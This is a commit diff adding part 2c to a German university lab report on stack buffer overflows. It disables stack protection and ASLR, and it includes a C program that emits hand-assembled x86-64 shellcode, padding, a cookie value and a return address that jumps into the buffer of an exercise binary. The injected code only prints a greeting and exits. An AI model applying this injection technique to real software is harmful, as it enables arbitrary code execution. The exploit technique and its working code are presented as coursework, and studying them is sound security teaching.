

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/5/protokoll.tex): part of page 4 of 5 before the commit and two parts of pages 4 and 5 of 6 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added 2c

```diff
--- a/Protokolle/5/protokoll.tex
+++ b/Protokolle/5/protokoll.tex
@@ -240,4 +240,84 @@ Der Speicherzugriffsfehler kommt von der weiteren Ausführung des Programms, da
 
 \subsection*{c)}
 
+Um eigenen Code einzufügen müssen wir die Befehle in hexadezimal codiert in den Buffer schreiben. Außerdem muss auch die gewünschte Ausgabe mit in den Buffer geschrieben werden und dann wie bereits in b) der rücksprung-Pointer ausgeführt werden. Diesmal jedoch nicht auf den code hinter dem if, sondern an den Anfang unseres Buffers, in den wir unser Programm gepackt haben.
 
+Damit dies funktioniert müssen beim compilieren ein paar Flags gesetzt werden, damit z.B. der code aus dem Stack ausgeführt werden kann:
+\begin{verbatim}
+gcc -o c c.c -zexecstack -fno-stack-protector
+\end{verbatim}
+
+Außerdem deaktivierten wir das zufällige verteilen der Programme im Speicher durch eintragen einer 0 in /proc/sys/kernel/randomize\_va\_space. Hierdurch besitzt das Programm bei jeder Ausführung die gleiche Speicherstelle, sowie auch der darin enthaltene \texttt{buf}. Nach Ausgabe der Adresse für den Buffer können wir also mit unserem angepassten input Programms unseren Code in den Buffer schreiben und ihn ausführen. Wir bekommen dabei folgendes Ergebnis:
+\begin{verbatim}
+$ ./inputGenC | ./c
+buf: ffffe7d0 cookie: ffffe83c
+glückwunsch bernd!
+\end{verbatim}
+
+Unser input Programm dafür sieht folgendermaßen aus:
+\begin{verbatim}
+#include <stdio.h>
+
+int main() {
+   unsigned int i;
+   //write our printing code
+   printf("%c", 0xeb);
+   printf("%c", 0x22);
+   printf("%c", 0x48);
+   printf("%c", 0x31);
+   printf("%c", 0xc0);
+   printf("%c", 0x48);
+   printf("%c", 0x31);
+   printf("%c", 0xff);
+   printf("%c", 0x48);
+   printf("%c", 0x31);
+   printf("%c", 0xd2);
+   printf("%c", 0x48);
+   printf("%c", 0xff);
+   printf("%c", 0xc0);
+   printf("%c", 0x48);
+   printf("%c", 0xff);
+   printf("%c", 0xc7);
+   printf("%c", 0x5e);
+   printf("%c", 0x48);
+   printf("%c", 0x83);
+   printf("%c", 0xc2);
+   printf("%c", 0x13);//number of chars for the output
+   printf("%c", 0x0f);
+   printf("%c", 0x05);
+   printf("%c", 0x48);
+   printf("%c", 0x31);
+   printf("%c", 0xc0);
+   printf("%c", 0x48);
+   printf("%c", 0x83);
+   printf("%c", 0xc0);
+   printf("%c", 0x3c);
+   printf("%c", 0x48);
+   printf("%c", 0x31);
+   printf("%c", 0xff);
+   printf("%c", 0x0f);
+   printf("%c", 0x05);
+   printf("%c", 0xe8);
+   printf("%c", 0xd9);
+   printf("%c", 0xff);
+   printf("%c", 0xff);
+   printf("%c", 0xff);
+   //write our text after the code for execution
+   printf("glückwunsch bernd!");
+   //fill the rest of the buffer until cookie
+   for(i = 0; i < 108 - 60; i++){	//allready 59 chars for the program + output
+      printf("%c", 0);
+   }
+   //fill the cookie variable
+   printf("dbcg");
+   //print some unneeded data as offset to the jump adress
+   for(i = 0; i < 8; i++){
+      printf("%c", 0);
+   }
+   //print the correct adress for the jump (which is the value of the buffer adress printed by the program)
+   printf("%c%c%c%c", 0x7fffffffe7d0 & 0xFF, (0x7fffffffe7d0 & 0xFF00) >> 8, (0x7fffffffe7d0 & 0xFF0000) >> 16, (0x7fffffffe7d0 & 0xFF000000) >> 24);
+   printf("%c%c%c%c", (0x7fffffffe7d0 & 0xFF00000000) >> 32, (0x7fffffffe7d0 & 0xFF0000000000) >> 40, (0x7fffffffe7d0 & 0xFF000000000000) >> 48, (0x7fffffffe7d0 & 0xFF00000000000000) >> 56);
+
+   return 0;
+}
+\end{verbatim}
```
Also changed, not shown: Protokolle/5/protokoll.tex (6 more changed lines).
